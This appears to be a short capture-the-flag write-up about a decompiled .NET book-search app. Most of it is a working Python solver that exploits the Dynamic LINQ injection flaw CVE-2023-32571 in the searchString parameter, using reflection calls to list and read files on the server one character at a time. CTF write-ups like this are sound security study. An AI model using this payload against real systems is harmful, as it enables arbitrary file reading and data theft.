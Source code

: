 the source is compiled .NET applications, means we need to decompile it first
![](librarydecompile.png)

after searching for like a hour, i got information source variable is vuln (CVE-2023-32571), and i got refernce from previous CTF chall from `SekaiCTF` and this is the solver.
#### Solver
```py
import requests
from urllib.parse import quote_plus

URL = 'http://playground.tcp1p.team:40279'

ch = 'flag_-01234567890abcdef.txt'
filename = ""
while not filename.endswith('.txt'):
    for c in ch:
        r = requests.get(URL + '/books?searchString=' + quote_plus('Harry") AND "".GetType().Assembly.DefinedTypes.First(x => x.FullName == "System"+"."+"String").DeclaredMethods.Where(x => x.Name == "StartsWith").First().Invoke("".GetType().Assembly.DefinedTypes.First(x => x.FullName == "System.Array").DeclaredMethods.Where(x => x.Name == "GetValue").Skip(1).First().Invoke("".GetType().Assembly.DefinedTypes.First(x => x.FullName == "System.IO.Directory").DeclaredMethods.Where(x => x.Name == "GetFiles").Skip(1).First().Invoke(null, new object[] { "/", "flag*.txt" }), new object[] { 0 }), new object[] { "/'+(filename+c)+'" }).ToString()=="True" AND ("xx"="xx'))
        if r.status_code == 200 and 'No books found.' not in r.text:
            filename += c
            print(filename)
ch = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_{}'
flag = ""
while not flag.endswith('}'):
    for c in ch:
        r = requests.get(URL + '/books?searchString=' + quote_plus('Harry") AND "".GetType().Assembly.DefinedTypes.First(x => x.FullName == "System"+"."+"String").DeclaredMethods.Where(x => x.Name == "StartsWith").First().Invoke("".GetType().Assembly.DefinedTypes.First(x => x.FullName == "System"+".IO."+"File").DeclaredMethods.Where(x => x.Name == "ReadAllText").First().Invoke(null, new object[] { "/'+filename+'" }), new object[] { "' + (flag+c) + '" }).ToString()=="True" AND ("xx"="xx'))
        if r.status_code == 200 and 'No books found.' not in r.text:
            flag += c
            print(flag)
```